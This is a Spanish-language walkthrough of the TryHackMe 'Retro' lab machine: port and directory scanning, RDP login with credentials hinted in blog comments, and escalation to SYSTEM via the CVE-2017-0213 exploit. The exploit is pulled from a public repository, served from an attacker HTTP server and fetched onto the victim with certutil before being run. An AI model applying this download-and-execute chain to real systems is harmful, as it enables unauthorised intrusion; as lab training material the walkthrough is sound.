### **Tutorial: Explotación de la máquina Retro – TryHackMe**

Este laboratorio muestra el proceso de reconocimiento, enumeración, acceso inicial y escalada de privilegios en una máquina vulnerable del laboratorio de TryHackMe.

## 1. Conexión a la VPN de TryHackMe

Para acceder a las máquinas del laboratorio es necesario conectarse previamente a la VPN de TryHackMe. Esto crea un túnel seguro entre la máquina Kali Linux y la red privada donde se encuentran los sistemas vulnerables.

### 1.1 Conexión mediante OpenVPN

Desde la terminal de Kali se ejecuta el siguiente comando utilizando el archivo .ovpn descargado desde la plataforma:

```bash
sudo openvpn /home/nerea/Descargas/eu-central-1-nereacandonramos-regular.ovpn
```

Si la conexión se establece correctamente aparecerá el siguiente mensaje:

```bash
Initialization Sequence Completed
```

Esto indica que la conexión VPN se ha realizado correctamente.
Si vemos que no funciona, probar otro archivo de configuración hasta que se vea conectado en vez de central, poner west..


### 1.2 Verificación de la conexión

Para comprobar que la conexión está activa se ejecuta:

```bash
ip a
```

En la salida aparecerá una interfaz de red llamada:

```bash
tun0
```

Esta interfaz corresponde a la conexión con la red privada de TryHackMe.
Esta máquina no responde a ping, tarda en arrancar.

## 2. Escaneo de puertos con Nmap

El siguiente paso consiste en identificar los servicios disponibles en la máquina objetivo utilizando Nmap.

```bash
nmap -sV -sC -A -Pn 10.130.176.237
```


Opciones utilizadas:

- sC ejecuta scripts básicos de enumeración.

- sV detecta versiones de los servicios.

- A activa detección avanzada de servicios y sistema operativo.

Este escaneo permite obtener una visión general del sistema antes de intentar explotarlo.

El resultado muestra varios puertos abiertos, entre ellos:

- 80 = servidor web

- 3389 = Remote Desktop Protocol (RDP)

## 3. Enumeración del servidor web

Al detectar que el puerto 80 se encuentra abierto, el siguiente paso consiste en acceder al servidor web desde el navegador.

Para ello se introduce la dirección de la máquina objetivo:

```bash
http://10.130.176.237
```


Al cargar la página se observa el sitio por defecto del servidor Microsoft IIS 10.0. Esta página no proporciona información relevante inicialmente, por lo que se procede a realizar una enumeración de directorios en el servidor web.

## 4. Búsqueda de directorios ocultos con Gobuster

Para descubrir posibles rutas ocultas dentro del servidor web se utiliza la herramienta Gobuster.

El comando ejecutado es el siguiente:

```bash
gobuster dir -u http://10.130.176.237 -w /usr/share/dirb/wordlists/big.txt
```


Explicación de los parámetros utilizados:

- dir indica el modo de enumeración de directorios.

- -u especifica la URL objetivo.

- -w define el diccionario de palabras utilizado para la búsqueda.

Tras ejecutar el escaneo, Gobuster descubre el siguiente directorio:

```bash
/retro
```

Esto indica que existe una sección del sitio web accesible en:

```bash
http://10.130.176.237/retro
```


## 5. Análisis del directorio /retro

Al acceder a la ruta descubierta se observa un blog con temática retro.

Durante la revisión de los comentarios publicados en las entradas del blog aparece una pista importante. En uno de los comentarios el usuario Wade deja una nota personal que dice:

Leaving myself a note just in case I forget how to spell it: parzival

Este comentario sugiere posibles credenciales de acceso:

Usuario:

```bash
wade
```

Contraseña:

```bash
parzival
```




## 6. Acceso al sistema mediante RDP

Durante el escaneo inicial con Nmap se detectó que el puerto 3389 está abierto, el cual corresponde al servicio Remote Desktop Protocol (RDP).

Este protocolo permite acceder al escritorio remoto de un sistema Windows.

Desde Kali Linux se puede utilizar la herramienta xfreerdp3 para establecer la conexión.


```bash
xfreerdp3 /u:wade /p:parzival /v:10.130.176.237
```


Configuración de la conexión:

- Protocolo: RDP

- Servidor: 10.114.188.140

- Usuario: wade

- Contraseña: parzival

Tras introducir estas credenciales se obtiene acceso al escritorio remoto del sistema Windows.

## 7. Enumeración del sistema

Una vez dentro del sistema se puede abrir una consola y ejecutar el siguiente comando para identificar el usuario actual:

```bash
whoami
```


El resultado confirma que se ha iniciado sesión como el usuario:

```bash
retroweb\wade
```


También se puede obtener información detallada del sistema ejecutando:

```bash
systeminfo
```

Este comando muestra información relevante como:

- versión del sistema operativo

- arquitectura del sistema

- actualizaciones instaladas

- configuración del equipo

Esta información es útil para identificar posibles vectores de escalada de privilegios.



## 8. Enumeración de usuarios y búsqueda de información sensible

Una vez dentro del sistema con el usuario wade, el siguiente paso consiste en enumerar los usuarios existentes en la máquina y buscar posibles archivos que contengan credenciales o información sensible.

### 8.1 Listado de usuarios del sistema

Para identificar los usuarios disponibles se navega al directorio principal de usuarios:

```bash
dir C:\Users
```

El resultado muestra los siguientes usuarios:

```bash
Administrator
Wade
Public
```



El usuario Administrator es el objetivo, ya que posee privilegios elevados en el sistema.

### 8.2 Búsqueda de archivos sensibles

Una vez identificados los usuarios del sistema, se procede a buscar archivos que puedan contener información relevante como credenciales, notas o pistas para la escalada de privilegios.

Se comienza revisando el escritorio del usuario actual:

```bash
cd C:\Users\wade\Desktop
dir
```

En este directorio se encuentra un archivo .txt que contiene información relevante.

Para visualizar su contenido se utiliza:

```bash
type user.txt.txt
```
El archivo contiene una cadena en formato hash:

```bash
3b99fbdc6d430bfb51c72c651a261927
```

Este tipo de valor suele corresponder a una flag del sistema o a un identificador, aunque no proporciona directamente acceso a privilegios elevados.

### 8.3 Revisión del navegador

Durante la enumeración del sistema, se revisa el navegador instalado en la máquina (Internet Explorer), accediendo a los marcadores o favoritos guardados.

En estos se observa una referencia a una vulnerabilidad conocida:

```bash
CVE-2019-1388
```

Esto sugiere que el sistema podría ser vulnerable a técnicas de escalada de privilegios.

## 9. Escalada de privilegios mediante exploit

Tras investigar posibles vulnerabilidades aplicables, se identifica el exploit:

```bash
CVE-2017-0213
```

Este exploit permite escalar privilegios en sistemas Windows vulnerables.

### 9.1 Preparación del exploit

Desde la máquina atacante (Kali Linux), se descarga el exploit:

```bash
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/CVE-2017-0213/CVE-2017-0213_x64.zip
```

Se descomprime el archivo:

```bash
unzip CVE-2017-0213_x64.zip
```



### 9.2 Transferencia del exploit

Se levanta un servidor HTTP en la máquina atacante:

```bash
python3 -m http.server 8000
```


Desde la máquina víctima, se accede directamente al archivo:

```bash
http://192.168.142.53:8000/CVE-2017-0213_x64.exe
```


También se puede descargar mediante línea de comandos:

```bash
certutil -urlcache -split -f http://192.168.142.53:8000/CVE-2017-0213_x64.exe exploit.exe
```

### 9.3 Ejecución del exploit

Una vez descargado el archivo en la máquina víctima, se ejecuta:

```bash
exploit.exe
```

Al ejecutarlo correctamente, se abre una nueva consola con privilegios elevados:

```bash
NT AUTHORITY\SYSTEM
```

### 9.4 Verificación de privilegios

Para confirmar la escalada de privilegios se ejecuta:

```bash
whoami
```

Obteniendo como resultado:

```bash
nt authority\system
```


Asi hemos conseguido escalar privilegios en el sistema y tener el máximo de privilegios de la máquina victima.